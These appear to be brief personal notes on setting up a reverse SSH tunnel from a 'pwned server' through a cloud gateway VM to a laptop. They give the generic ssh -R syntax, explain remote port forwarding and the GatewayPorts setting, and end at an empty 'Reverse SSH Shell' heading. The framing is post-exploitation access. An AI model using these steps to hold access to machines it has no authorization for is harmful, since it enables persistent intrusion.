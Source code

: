 # Reverse SSH Shell

## Remote Port Forwarding

```
# Setup

[ PWNED SERVER ]


[ GCP GATEWAY VM (35.196.145.50) ]


[ LAPTOP ]


```

- `ssh -R [remote_addr:]remote_port:local_addr:local_port [user@]gateway_addr`
  - `-R`: remote port forwarding
  - `remote_addr:remote_port`: the interface/address on the gateway where the forwarded port should appear
  - `local_addr:local_port`: service on pwned server to expose
  - `gateway_addr`: public-facing SSH server you connect to from laptop

- when someone connects to `remote_addr:remote_port` _on the gateway_, traffic is tunneled over SSH to pwned server, then delivered to `local_addr:local_port`
- must turn on `GatewayPorts yes` for SSH daemon on gateway to bind to all interfaces (0.0.0.0)

- port forwarding: taking traffic that arrives at one port on one machine, securely forwarding it thorugh an SSH tunnel to another machine/port
- a port forwarding tunnel just carries raw TCP packages over an encrypted SSH channel

## Reverse SSH Shell
